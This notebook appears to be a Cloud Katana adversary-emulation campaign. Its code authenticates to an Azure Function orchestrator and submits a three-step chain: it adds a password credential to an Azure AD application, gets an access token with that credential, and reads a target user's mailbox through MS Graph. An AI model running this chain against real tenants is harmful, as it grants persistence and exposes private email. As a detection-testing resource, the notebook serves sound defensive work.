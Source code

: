 ```yaml
---
jupyter:
  jupytext:
    text_representation:
      extension: .md
      format_name: markdown
      format_version: '1.3'
      jupytext_version: 1.14.7
  kernelspec:
    language: python
---
```


# Add New Password Credential to Azure AD Application and Read Mail


## Metadata



|                   |    |
|:------------------|:---|
| contributors      | ['Azure'] |
| platform          | Roberto Rodriguez @Cyb3rWard0g |
| creation date     | 2022-04-28 |
| modification date | 2022-04-28 |
| Tactics           | [TA0003](https://attack.mitre.org/tactics/TA0003) |
| Techniques        | [T1098.001](https://attack.mitre.org/techniques/T1098/001) |


## Description
A campaign to simulate a threat actor adding password credentials to an Azure AD application, getting an access token with the new credentials and reading mail from a specific user via MS Graph with the security context of the Azure AD application.


## Get OAuth Access Token

```python
from msal import PublicClientApplication
import requests
import time

function_app_url = "https://FUNCTION_APP_NAME.azurewebsites.net"

tenant_id = "TENANT_ID"
public_client_app_id = "KATANA_CLIENT_APP_ID"
server_app_id_uri = "api://" + tenant_id + "/cloudkatana"
scope = server_app_id_uri + "/user_impersonation"

app = PublicClientApplication(
    public_client_app_id,
    authority="https://login.microsoftonline.com/" + tenant_id
)
result = app.acquire_token_interactive(scopes=[scope])
bearer_token = result['access_token']
```

## Set Azure Function Orchestrator

```python
endpoint = function_app_url + "/api/orchestrators/Orchestrator"
```

## Load Campaign

```python
data = {"id": "attackscenario-81b67a16-5218-41e6-8c6d-1fc6a10b757a", "name": "Add New Password Credential to Azure AD Application and Read Mail", "metadata": {"creationDate": "2022-04-28", "modificationDate": "2022-04-28", "platform": ["Azure"], "description": "A campaign to simulate a threat actor adding password credentials to an Azure AD application, getting an access token with the new credentials and reading mail from a specific user via MS Graph with the security context of the Azure AD application.", "contributors": ["Roberto Rodriguez @Cyb3rWard0g"], "mitreAttack": [{"technique": "T1098.001", "tactics": ["TA0003"]}]}, "steps": [{"number": 1, "name": "AddPasswordToAADApp", "execution": {"type": "ScriptModule", "platform": "Azure", "executor": "PowerShell", "module": {"name": "CloudKatanaAbilities", "version": "1.3.0", "function": "New-CKAzADAppPassword"}, "parameters": {"appObjectId": {"type": "string", "defaultValue": "test"}}}, "wait": 30}, {"number": 2, "name": "GetAccessToken", "dependsOn": [1], "execution": {"type": "ScriptModule", "platform": "Azure", "executor": "PowerShell", "module": {"name": "CloudKatanaAbilities", "version": "1.3.0", "function": "Get-CKAccessToken"}, "parameters": {"ClientId": {"type": "string", "defaultValue": "test"}, "GrantType": {"type": "string", "defaultValue": "client_credentials"}, "AppSecret": {"type": "string", "defaultValue": "reference(1).secretText"}}}}, {"number": 3, "name": "GetMailboxMessages", "dependsOn": [2], "execution": {"type": "ScriptModule", "platform": "Azure", "executor": "PowerShell", "module": {"name": "CloudKatanaAbilities", "version": "1.3.0", "function": "Get-CKMailboxMessages"}, "parameters": {"accessToken": {"type": "string", "defaultValue": "reference(2).access_token"}, "userPrincipalName": {"type": "string", "defaultValue": "test"}}}}], "file_name": "attackscenario-81b67a16-5218-41e6-8c6d-1fc6a10b757a"}
```

### Send HTTP Request

```python
http_headers = {'Authorization': 'Bearer ' + bearer_token, 'Accept': 'application/json','Content-Type': 'application/json'}
results = requests.get(endpoint, json=data, headers=http_headers, stream=False).json()

time.sleep(30)
```

### Explore Output

```python
query_status = requests.get(results['statusQueryGetUri'], headers=http_headers, stream=False).json()
query_results = query_status['output']
query_results
```
